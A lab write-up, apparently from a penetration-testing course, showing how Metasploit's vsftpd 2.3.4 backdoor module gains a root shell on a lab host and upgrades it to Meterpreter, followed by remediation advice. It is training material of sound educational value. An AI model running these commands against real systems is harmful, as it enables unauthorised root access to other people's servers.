









# Vulnerable FTP Server

**Classification:** Host & Network Penetration Testing / The Metasploit Framework<br>
**Target:** demo.ine.local (192.11.2.3) — Unix, vsftpd 2.3.4<br>
**Objective:** Exploit the server and get a shell.

## 1. Executive Summary

The target runs **vsftpd 2.3.4**, which shipped with a well-known backdoor (CVE-2011-2523):
a `:)` smiley in the username triggers a root shell on port 6200. Metasploit's
`vsftpd_234_backdoor` module exploits it for a **root** command shell, which we upgrade to
Meterpreter.

## 2. Recon

```bash
ping -c 4 demo.ine.local
db_nmap -sV 192.11.2.3
services
```







Port 21 runs **vsftpd 2.3.4**.



## 3. Exploitation

```bash
search vsftpd
use exploit/unix/ftp/vsftpd_234_backdoor
set RHOSTS 192.11.2.3
exploit
```



The backdoor yields a **root** command shell.

```
whoami    # root
```



## 4. Upgrading to Meterpreter

```bash
background
use post/multi/manage/shell_to_meterpreter
set SESSION 1
run
```







## 5. Remediation Recommendations

1. **Replace the backdoored vsftpd 2.3.4** with a clean, current build; install packages only
   from trusted sources and verify checksums/signatures.
2. **Run FTP with least privilege** and restrict its exposure to trusted networks.
3. **Prefer FTPS/SFTP** over plaintext FTP and monitor for the backdoor's port-6200 pattern.
